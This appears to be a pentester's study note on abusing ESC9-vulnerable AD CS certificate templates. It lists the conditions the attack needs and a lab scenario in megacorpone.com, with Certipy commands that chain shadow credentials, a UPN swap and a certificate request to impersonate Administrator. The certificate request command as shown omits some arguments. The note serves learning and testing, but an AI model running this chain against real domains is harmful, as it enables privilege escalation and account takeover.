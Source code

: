 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# General Overview: 

The `CT_FLAG_NO_SECURITY_EXTENSION` (0x80000) value for the `msPKI-Enrollment-Flag`, known as ESC9, prevents the inclusion of the `szOID_NTDS_CA_SECURITY_EXT` security extension in certificates. This flag is particularly important when `StrongCertificateBindingEnforcement` is set to 1 (the default), as opposed to 2. Its significance increases in scenarios where weaker certificate mappings for Kerberos or Schannel could be exploited, such as in ESC10, since the absence of ESC9 would not affect the security requirements.

## Requirements: 
- StrongCertificateBindingEnforcement set to 1 (default) or 0
- Certificate contains the CT_FLAG_NO_SECURITY_EXTENSION flag in the msPKI-Enrollment-Flag value
- Certificate specifies Any Client authentication EKU
- GenericWrite over any account A to compromise any account B
# Abusing ESC9  Certificate Templates

## Scenario 1 

afsimmons@megacorpone.com has GenericWrite over xadmin@megacorpone.com, and we want to compromise Administrator@megacorpone.com. xadmin@megacorpone.com is allowed to enroll in the certificate template ESC9 that specifies the CT_FLAG_NO_SECURITY_EXTENSION flag in the msPKI-Enrollment-Flag value.
## Certipy

- certipy-ad shadow auto -username afsimmons@megacorpone.com -p Spawn123! -account xadmin
- certipy-ad account update -username afsimmons@megacorpone.com -p Spawn123! -user xadmin -upn Administrator
- certipy-ad req -username afsimmons@megacorpone.com -password Spawn123! -user xadmin@megacorpone.com
- certipy-ad auth -pfx administrator.pfx -domain megacorpone.com
